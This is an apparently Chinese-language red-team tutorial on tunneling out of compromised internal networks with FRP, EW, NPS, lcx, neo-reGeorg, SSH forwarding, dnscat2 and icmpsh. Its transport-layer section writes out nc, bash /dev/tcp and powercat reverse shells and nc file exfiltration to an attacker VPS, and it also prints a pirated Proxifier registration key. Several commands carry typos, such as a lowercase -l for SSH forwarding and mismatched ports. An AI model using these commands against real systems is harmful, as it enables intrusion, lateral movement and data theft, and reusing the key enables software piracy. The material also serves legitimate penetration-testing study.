0x00 内网穿透技术
当我们拿到一台内网主机后，一般都是有区域隔离的。所以这时候就用到流量代理了。这里简单介绍一下建立通信隧道，常见的有端口转发等
主要隧道有：
ICMP TCP UDP SSH HTTP DNS SOCKS
0x01 首先判断出网协议
icmp协议：
ping www.baidu.com
TCP协议：
curl www.baidu.com
nc IP
HTTP协议：
curl ip:port
curl www.baidu.com:80
DNS协议：
Nslookup www.baidu.com
Dig www.baidu.com
0x02理论知识
正向代理
正向代理类似一个跳板机，代理访问外部资源（比如我们国内访问谷歌，直接访问访问不到，我们可以通过一个正向代理服务器，请求发到代理服，代理服务器能够访问谷歌，这样由代理去谷歌取到返回数据，再返回给我们，这样我们就能访问谷歌了）
反向代理
反向代理（Reverse Proxy）实际运行方式是指以代理服务器来接受internet上的连接请求，然后将请求转发给内部网络上的服务器，并将从服务器上得到的结果返回给internet上请求连接的客户端，此时代理服务器对外就表现为一个服务器
0x03常用工具
https://www.proxifier.com/
https://github.com/fatedier/frp
https://github.com/ehang-io/nps
https://github.com/L-codes/Neo-reGeorg
proxifier注册码
用户名：zxhi
注册码：LYZGL-F2KX3-JW5W4-A33MC-25QHH
0x04 各种协议隧道
一、Socks代理
1. FRP隧道
1.1. 反向代理
目的：
1.需要通过公网服务器代理连接内网机器
2.需要通过代理使得本机外网地址变为该内网机器外网IP
拓扑图

1、配置靶机上配置frps. ini
#frps.ini
[common]
bind_addr = 0.0.0.0
bind_port = 7000
2、首先在公网上配置服务端(frpc.ini)
#frpc.ini
[common]
# 填写攻击机的地址
server_addr = 0.0.0.0
server_port = 7000
[plugin_http_proxy]
type = tcp
remote_port = 7890
plugin = http_proxy
# 可以添加认证
# plugin_http_user = abc
# plugin_http_passwd = abc
[plugin_socks5]
type = tcp
remote_port = 7891
plugin = socks5
# plugin_user = abc
# plugin_passwd = abc
3、配置proxifier

配置ip、端口、连接方式、账号密码

配置通过该代理的IP Target hosts处添加允许通过的IP（一般内网我都会只让内网的IP通过，防止流量过大）

尝试访问内网地址

1.2.多层socks代理
实验环境：内网C主机不能直接连接vps，可以连接内网B主机，B主机可以直接连接vps，所以通过B作为跳板，将socks代理建设在内网C主机中

具体思路：利用B即作为服务端(frps)，也同时作为客户端(frpc)
1、VPS配置frps.ini
#frps.ini
[common]
bind_addr = 0.0.0.0
bind_port = 7000
配置好之后运行
frps.exe -c frps.ini
2、内网B主机的frps.ini设置：
[common]
#填写ip当前主机的ip地址
bind_addr = 192.168.100.40
bind_port = 7000
配置好之后运行
frpc.exe -c frpc.ini
3、内网C主机的frpc.ini设置
frpc.ini
[common]
#填写跳板的地址，这里填写的是主机website主机的iP地址
server_addr = 192.168.100.40
server_port = 7000
[plugin_socks5]
type = tcp
remote_port = 7777
plugin = socks5
配置好之后运行
frpc.exe -c frpc.ini
4、内网B主机的frpc.ini设置：
#frpc.ini
[common]
# 填写自己的服务器IP
server_addr = 10.108.3.58
server_port = 7000
[pandan]
type = tcp
local_ip= 192.168.100.40
remote_port = 7777
local_port = 7777
配置好之后运行
frpc.exe -c frpc.ini
思路分析：
两个启动以后，其实已经可以直接通过使用B主机ip+端口直接使用搭建在C主机的socks代理，但是此时是无法直接访问B主机的，但是B主机出网，所以可以通过将刚刚C连接B的7891端口映射到vps上，通过连接vps+端口使用C主机的socks代理
5、测试socks代理是否搭建成功：
访问主机B的web服务(192.168.1.50)
访问主机C的web服务(192.168.2.200)

说明代理没问题
2.EW
常用参数
-l 指定要监听的本地端口 -d 指定要反弹到的机器 ip -e 指定要反弹到的机器端口 -f 指定要主动连接的机器 ip -g 指定要主动连接的机器端口 -t 指定超时时长,默认为 1000
2.1 正向代理
正向连接需要目标主机有一个公网 IP，或者说攻击主机能够直接访问到目标主机。
ew -s ssocksd -l 10899
使用 SocksCap、Proxifier、ProxyChains 等工具配置上目标主机的 IP 和监听端口即可
2.2、反向代理
攻击机：
ew -s rcsocks -l 1081 -e 1080
将靶机中的1080端口流量代理到本地的1081端口上
靶机
ew -s rssocks -d 攻击机IP -e 1080
2.3、多层代理
获得目标网络内两台主机 A、B 的权限，情况描述如下：
A 主机： 目标网络的边界主机，无公网 IP，无法访问特定资源。
B 主机： 目标网络内部主机，可访问特定资源，却无法回连公网。
A 主机可直连 B 主机
一台可控公网IP主机 可控内网主机A 内网主机C
+---------+ +--------------------------+ | +------------------------+ +-----------------------------+
|HackTools| ->> | 9999 -> 10.108.3.58 -> 8888 | 防火墙 | <-- 192.168.1.50 --> | ->> | 9999 --> 192.168.2.200 |
+---------+ +--------------------------+ | +------------------------+ +-----------------------------+
在VPS( 10.108.3.58 )公网主机添加转接隧道，将 9999收到的代理请求，转交给反连 8888 端口的主机
ew -s lcx_listen -l 9999 -e 8888

在内网主机A(192.168.2.200)上利用 ssocksd 方式启动 7777端口的 socks 代理
ew -s ssocksd -l 777
在 192.168.1.50 上，通过工具的 lcx_slave 方式，打通10.108.3.58:9999 和 192.168.2.200:7777之间的通讯隧道
ew -s lcx_slave -d 10.108.3.58 -e 8888 -f 192.168.1.200 -g 7777
验证

3.NPS
NPS工具是一款使用go语言编写的轻量级、功能强大的内网穿透工具。支持TCP、UDP流量转发，支持内网HTTP、SOCKS5代理，同时支持snappy压缩(节省带宽和流量)、站点保护、加密传输、多路复用、header修改等。同时还支持web图形化管理。该工具使用简单，相比于FRP，NPS是图形化界面，因此配置更加简单。
3.1 反向代理
配置nps
在nps目录下面会有一个nps可执行文件、conf配置目录和web网页目录，我们只需要修改conf/nps.conf即可：
需要改一下#web下面的几个参数，
web_host= 服务器IP或者域名
web_username= admin（登录用户名）
web_password= 你的密码
web_port=8080（web管理端口）
修改#bridge 可以更改 NPC的连接端口。比如我们拿到一台权限受限的服务器，有防火墙，可能只有部分端口（80，443）可以出网，就需要修改成出网端口。
##bridge
bridge_type=tcp
bridge_port=443 # 修改连接端口
bridge_ip=0.0.0.0
启动server

访问WEB管理页面（默认web界面端口是8080，默认密码为admin/123 ，可以在配置文件里修改默认端口和账号密码）

新增客户端

设置客户端验证秘钥：


配置客户端
上传客户端文件至C，解压后在CMD运行命令：
npc.exe -server=10.108.3.147:8024 -vkey=123456 -type=tcp

在web管理页面可以看到C主机已上线：
配置Socks5代理
现在A仍然无法访问内网的C主机，需要使用Socks5客户端软件把流量带出来。
注意：一定要等客户端上线以后在配置Socks代理。

新增成功后的页面：

测试
配置Proxifier
测试成功

官方文档：https://ehang-io.github.io/nps/#/?id=nps
二、传输层
2.1. nc
nc 是一款比较老的工具，但是确实是经典俗称瑞士军刀，简单介绍一下
简单互相传输功能：
vps：nc -lp 5555
目标机器：Nc -vn vpsip 5555
文件传输功能：
vps：nc -lp 5555 >1.txt
目标机器：Nc -vn vpsip < xx.txt
shell的反弹：
正向连接：
nc -lvp 4444 -e /bin/sh
nc 192.168.1.1 4444
反向连接：
nc -lvp 4444
nc 192.168.1.1 4444 -e /bin/sh
注意：windows版本CMD位置C:\windows\system32\cmd.exe
Bash反向shell
nc -lvp 4444
Bash -i >& /dev/tcp/192.168.1.1/4444 0>&1
2.2 Powercat（powershell版的nc）
正向和反向连接：
powercat -l -p 8080 -e cmd.exe -v
nc 192.168.1.1 8080 -vv
nc -l -p 8080 -vv
powercat -c 192.169.1.1 -p 8080 -e cmd.exe -v
可以反弹powershell
-eq
文件上传
这个不用说，基本这种连接的都支持
在c:下新建一个test.txt的文件，写入数据
在有text.txt的机器执行:
powercat -c 192.168.12.108 -p 9999 -i c:test.txt -v
另一台机器执行
powercat -l -p 9999 -of c:test.txt -v
3.lcx端口转发
windows
vps: lcx -listen 2222 3333 //2222为转发端口，3333为本机任意未被占用的端口
肉鸡：lcx -slave vps_ip 2222 127.0.0.1 3389 //将本地3389端口转发至vps_ip 2222端口
3389连接时格式 vps:3333
linux
vps：./portmap -m 2 -p1 6666 -h2 公网IP -p2 7777
肉鸡：./portmap -m 3 -h1 127.0.0.1 -p1 22 -h2 公网ip -p2 6666
将内网主机22端口的流量转发到公网主机的6666端口
5.neo-reGeorg
VPS上支持生成的服务端，默认 GET 请求响应指定的页面内容 (如伪装的404页面)
python neoreg.py generate -k <you_password> --file 404.html
将相应的隧道文件放到目标服务器的web目录后使用neoreg连接web服务器并建立本地socks代理。
VPS上运行
python neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080（本地代理地址）
Socks连接工具连接本地127.0.0.1:1080
三、应用层
3.1 SSH转发
一个正常的SSH命令
ssh root@192.168.1.1
SSH 本地转发机制
拓扑：VPS—-边界WEB—-目标主机
边界WEB双网卡192.168.1.1和10.1.1.1段
本地转发机制：
选项：
-C 压缩传输
-f 后台启用
-N 不打开远程shell，处于等待状态
-g 允许本地转发端口
使用方法：
在VPS上运行
用法：ssh -CfNg -L <vps port>:<目标主机 host>:<目标主机 port> <SSH 边界机>
ssh -CfNg -l 5555:10.1.1.1:3389 root@192.168.1.1
#VPS检查---查看端口是否已经连接
netstat -tulnp | grep "5555"
当访问 VPS 5555 端口的时候，就转发给 root@192.168.1.1 边界机 ，发送给目标主机
SSH 远程转发机制
拓扑：VPS—-边界WEB—-目标主机
边界WEB—-目标主机—都是单网卡，都是纯内网 10.1.1.1段
在WEB边界机运行
ssh -CfNg -R <vps port>:<目标主机 host>:<目标主机 port> <SSH VPS主机>
ssh -CfNg -l 6666:10.1.1.1:3389 root@49.121.1.102
边界机把内网的端口，远程连接道VPS，远程转发道VPS
SSH 动态转发机制
这里主要是建立一个动态的socks代理隧道
在VPS上运行
ssh -CfNg -D 7000 <SSH 边界主机>
ssh -CfNg -D 7000 root@192.168.1.1
VPS上7000端口上，开了一个socks代理，用代理软件就可以连接
3.2 DNS 隧道：
dnscat2
工具dnscat2，这是一DNS隧道，该工具旨在通过DNS协议创建加密的命令和控制（C＆C）通道，还有自己的控制台
dnscat2分为两个部分：客户端和服务器。
服务端为Ruby编写，需安装Ruby环境。kali系统内置Ruby，但是运行时仍可能报缺少一些gem依赖：
服务端VPS：
安装依赖：
apt install gem
apt install ruby-dev
apt install libpq-dev
apt install ruby-bundler
下载并安装：
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
sudo gem install bundler
开启服务：
ruby ./dnscat2.rb vpn.zeo.com -e open
目标主机客户端：
上传dnsClient.zip 到目标主机 解压
./dnscat --dns server=服务端ip,port=53 --secret=服务端生成的秘钥
直连模式使用方法：
VPS中 server路径下：
ruby ./dnscat2
客户端：（这个命令会在 上面服务启动后提示，可以参考下面的截图红框）
./dnscat --dns server=x.x.x.x,port=53 --secret=281fc7a7ec57d500d269c96b8ae36ba5
四、网络层
4.1 ICMP隧道
ICMP（Internet Control Message Protocol）：没有目的端口与源端口，属于Internet控制报文协议。它是TCP/IP协议簇的一个子协议，用于在IP主机、路由器之间传递控制消息。控制消息是指网络通不通、主机是否可达、路由是否可用等网络本身的消息。
icmp隧道常用攻击：icmpsh、PRISM
icmpsh 环境说明:跨平台、不需要管理员运行
有三台机器： VPS–边界机–内网机
VPS操作过程：
下载icmpsh
安装依赖
服务端禁用：
icmp respones sysctl -w net.ipv4.icmp_echo_ignore_all=1
运行程序 ：
./run.sh
输入目标主机IP地址 开启监听：
./icmpsh_m,py vpsip 边界出网的公网IP
在边界机执行：
Imp.exe -t 攻击机ip -d 500 -b 30 -s 128
还有一种方法
编译 gcc icmpsh-m.c
VPS开启监听： sudo ./a.out
内网边界主机：icmpsh.exe -t VPSip -d 500 -b 30 -s 128
4.2 Lcx
内网端口转发
目标主机：lcx.exe -slave vpsip 4444 127.0.0.1 3389
VPS:Lcx --listen 4444 5555